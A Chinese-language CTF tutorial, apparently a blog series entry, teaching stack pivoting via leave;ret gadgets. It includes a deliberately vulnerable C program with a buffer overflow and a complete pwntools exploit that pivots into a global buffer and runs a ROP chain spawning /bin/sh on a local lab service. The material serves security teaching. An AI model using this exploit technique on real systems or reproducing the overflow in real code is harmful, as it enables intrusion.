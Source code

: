 ```yaml
---
title: "Day18－Stack Pivoting"
date: 2024-10-02
draft: false
tags: ["iron-man-2024", "pwn", "2024"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

如果我們沒有辦法有足夠的長度或方法 leak libc 或是構建 ROP chain，還有什麼攻擊方式嗎？其實有的，就是將 stack 直接移到其他區塊並執行事先寫在指定區域的 chain。將 stack 遷移到其他地方的方式就叫做 Stack Pivoting 或 Stack Migration。

## Stack Pivoting

Stack Pivoting 是將 ROP chain 分次寫在指定區域，最後將 stack 遷移過去執行。Stack 由 `rsp` 控制，因此我們需要控制 `rsp`，主要利用以下的關鍵指令：

- leave ; ret

實際執行了以下兩個動作：

- leave -> mov rsp , rbp ; pop rbp ;
- ret -> pop rip;

由於在每次的 buffer overflow 中，`rbp` 是可以控制的，所以我們可以利用 `rbp` 加上這個指令來控制 `rsp`。這些 gadgets 在程式中幾乎都可以找到，因為它們通常用於 function 結束時恢復上一個 function 的 stack frame。

### 範例

以下範例展示如何將 `rsp` 遷移到另一個區塊：

原本的 `rbp` 是 `0x7ffe65dea290`，`rsp` 是 `0x7ffe65dea280`。經過 `leave` 後，`rbp` 被換成我們填入的 `save rbp` 位置，`rsp` 變為 `rbp + 0x8`。再透過一次 `leave`，`rsp` 就會進一步改變。

如此一來，我們就可以控制執行流程，並且可以通過不斷遷移 stack 來達成任意的 ROP。

![image](/images/iron2024/day18_image1.png)

![image](/images/iron2024/day18_image2.png)

![image](/images/iron2024/day18_image3.png)

![image](/images/iron2024/day18_image4.png)

## Lab

查看以下原始碼：

```c
#include<stdio.h>
#include<stdlib.h>

char name[0x100];

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    char message[0x10];
    puts("Welcome to challenge!");
    puts("What's your name?");
    read(0, name, 0x100);
    puts("Leave a message: ");
    read(0, message, 0x20);
    return 0;
}
```

使用以下指令進行編譯：

```bash
gcc src/stack_pivoting.c  -o ./stack_pivoting/share/stack_pivoting -fno-stack-protector -no-pie -static
```

## writeup

可以發現有一個全域變數 `name` 可以寫入內容，還有一個 `message` 可以輸入並且存在 buffer overflow 的風險。我們可以確認是否能覆蓋 return address。

在輸入是從 `rbp - 0x10` 輸入 0x20，因此可以 overflow 的空間為 0x20 - 0x10 = 0x10，剛好可以覆蓋 return address。

![image](/images/iron2024/day18_image5.png)

因為編譯參數使用了 `-static`，我們可以利用許多 gadgets 來進行 ROP。不能直接透過 return address 進行 ROP，但可以將 ROP chain 寫在 `name` 中，透過 stack pivoting 將程式流程轉移到 `name`，進而執行 ROP。

確認 `name` 的位置：

![image](/images/iron2024/day18_image6.png)

接下來可以參考[Day12－Basic ROP](https://ithelp.ithome.com.tw/articles/10358514)

要注意，name 要填入最後將 rsp 遷移過去會改的 padding，還有要注意 return address 的部分要填上 leave ; ret，並且加上原先就存在 main function 最後的 leave ; ret，即可改變 rsp

完整 exploit：

```python
from pwn import *

context.arch = 'amd64'

# r = process('../stack_pivoting/share/stack_pivoting')
r = remote('127.0.0.1', 10009)

rop = flat(
    0x00000000004048f4, # pop rsi ; ret
    0x49c230, # writable address
    0x0000000000417807, # pop rax ; ret
    b'/bin/sh\x00',
    0x0000000000418f31, # mov qword ptr [rsi], rax ; ret
    0x0000000000417807, # pop rax ; ret
    0x3b, # execve
    0x0000000000402008, # pop rdi ; ret
    0x49c230, # writable address
    0x00000000004048f4, # pop rsi ; ret
    0x0, # NULL
    0x00000000004563b7, # pop rdx ; pop rbx ; ret
    0x0, # NULL
    0x0, # NULL
    0x0000000000401291, # syscall
)
payload = b'A' * 0x8 + rop
r.sendlineafter(b"What's your name?\n",payload)
name = 0x000000000049db40
leave_ret = 0x0000000000401852
pivoting = b'A' * 0x10 + p64(name) + p64(leave_ret)
r.sendlineafter(b"Leave a message: \n",pivoting)
r.interactive()
```

solve!!!

![image](/images/iron2024/day18_image7.png)
